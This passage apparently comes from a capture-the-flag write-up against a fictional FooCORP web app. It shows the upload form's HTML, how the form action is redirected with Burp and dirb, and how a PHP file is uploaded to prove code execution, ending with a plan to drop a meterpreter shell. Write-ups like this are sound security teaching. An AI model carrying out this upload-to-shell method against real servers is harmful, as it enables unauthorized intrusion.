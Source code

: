 ```html
<html><body style="background: black; color: white;">
<script src="http://75ajvxi36vchsv584es1.foocorp.io/app/js/auth.js"></script>
<center><div style="border: 1px yellow double">
<br /><br />
<form action="http://75ajvxi36vchsv584es1.foocorp.io/app/upload/upload.php" method="post" enctype="multipart/form-data">
<br />Select  file to upload:
<input type="file" name="fileToUpload" id="fileToUpload">
<input type="submit" value="Upload" name="submit">
</form>
<br /><br />
</div></center>
<hr /><br />
<center>&copy; FooCORP 2021</center>
<body></html>
```
  
Checking with this modification the app still seems broken. Let's switch to dirb if it found something else.
Indeed:  /app/ is another path we can visit: app/upload which redirects to upload.php
  
Let's modify in Burp and use http://75ajvxi36vchsv584es1.foocorp.io/app/upload.php, instead of http://75ajvxi36vchsv584es1.foocorp.io/app/upload/upload.php  
  
```html
<html><body style="background: black; color: white;">
<script src="http://75ajvxi36vchsv584es1.foocorp.io/app/js/auth.js"></script>
<center><div style="border: 1px yellow double">
<br /><br />
<form action="http://75ajvxi36vchsv584es1.foocorp.io/app/upload.php" method="post" enctype="multipart/form-data">
<br />Select  file to upload:
<input type="file" name="fileToUpload" id="fileToUpload">
<input type="submit" value="Upload" name="submit">
</form>
<br /><br />
</div></center>
<hr /><br />
<center>FooCORP 2021</center>
<body></html>
```
  
  
Now, let's upload a simple php file that we name php.php
<br/><br/>  
```php
	<?
	phpinfo();
	?>
```  
<br/><br/>
    
The file is stored and accessible on /app/upload/  
Ok, since this works we can now set up a listener with metasploit, create a meterpreter php file with msfvenom and upload the meterpreter php file to get a shell.
    